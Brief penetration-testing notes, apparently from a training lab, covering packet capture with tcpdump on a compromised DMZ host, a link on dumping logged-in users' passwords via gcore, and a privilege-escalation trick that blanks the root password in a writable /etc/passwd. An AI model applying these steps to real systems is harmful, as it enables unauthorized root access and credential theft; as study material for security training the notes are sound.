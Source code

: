 ```
root@dmz01:/tmp# tcpdump -i ens192 -s 65535 -w ilfreight_pcap
```
We could now transfer this down to our host and open it in Wireshark to see if we were able to capture anything.
# gcore privilege escalation
[https://wiki.sentnl.io/security/hacking-demos/getting-passwords-of-logged-in-users](https://wiki.sentnl.io/security/hacking-demos/getting-passwords-of-logged-in-users)
# /etc/passwd is writable
Delete root password 
```
root::0:0:root:/root:/bin/bash
```
